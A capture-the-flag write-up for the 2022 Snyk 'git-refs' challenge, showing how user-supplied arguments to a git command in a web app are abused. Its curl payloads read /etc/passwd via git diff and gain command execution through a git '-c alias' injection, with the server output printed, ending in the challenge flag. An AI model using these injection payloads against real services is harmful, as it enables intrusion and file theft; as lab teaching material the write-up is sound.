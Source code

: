 # 2022 Snyk - git-refs

This challenge was a web app that read remote git refs based on a URL that it was supplied. Here is a sample request that worked with the web app:
```
$ curl -XPOST http://git-refs.c.ctf-snyk.io/git -H "Content-Type: application/json" -d '["ls-remote", "localhost"]' -i
```

The `ls-remote` parameter was added by the web app which hints that this is something that is supplied to the git binary. Changing this parameter reveals:
```sh
$ curl -XPOST http://git-refs.c.ctf-snyk.io/git -H "Content-Type: application/json" -d '["notexist", "localhost"]' 
Error: Command failed with exit code 1: git notexist localhost
git: 'notexist' is not a git command. See 'git --help'.: git: 'notexist' is not a git command. See 'git --help'.
```

With this, we are quite certain that this is supplied to the git command and we found that we can easily read files from the server by using a known GTFO bin leveraging git diff:
```sh
$ curl -XPOST http://git-refs.c.ctf-snyk.io/git -H "Content-Type: application/json" -d '["diff", "/dev/null", "/etc/passwd"]'
Error: Command failed with exit code 1: git diff /dev/null /etc/passwd
diff --git a/etc/passwd b/etc/passwd
new file mode 100644
index 0000000..678e9c9
--- /dev/null
+++ b/etc/passwd
@@ -0,0 +1,21 @@
+root:x:0:0:root:/root:/bin/bash
+daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
+bin:x:2:2:bin:/bin:/usr/sbin/nologin
+sys:x:3:3:sys:/dev:/usr/sbin/nologin
+sync:x:4:65534:sync:/bin:/bin/sync
+games:x:5:60:games:/usr/games:/usr/sbin/nologin
+man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
+lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
+mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
+news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
+uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
+proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
+www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
+backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
+list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
+irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
+gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
+nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
+_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
+node:x:1000:1000::/home/node:/bin/bash
+user:x:1111:1111::/tmp:/bin/sh: 
```

The biggest pain was finding the flag, but we eventually leveraged `alias` to achieve code execution:
```sh
$ curl -XPOST http://git-refs.c.ctf-snyk.io/git -H "Content-Type: application/json" -d '["-c", "alias.lol=!id", "lol"]'  --output -
uid=1111(user) gid=1111(user) groups=1111(user)
```

Crawling through files, we were unable to find the flag until we saw it in the package.json file:
```sh
$ curl -XPOST http://git-refs.c.ctf-snyk.io/git -H "Content-Type: application/json" -d '["-c", "alias.lol=!cat /opt/app/package.json", "lol"]'  --output -
{
  "name": "git-refs",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "scripts": {},
  "author": "",
  "license": "ISC",
  "dependencies": {
    "body-parser": "^1.20.0",
    "execa": "^6.1.0",
    "express": "^4.18.1",
    "pm2": "^5.2.0",
    "tmp-promise": "^3.0.3"
  },
  "flag": "SNYK{a2d7df87e8891837b6ef84c192a3cc78d5feddb4bfbe2217be2bb94f98c33dd0}"
}
```
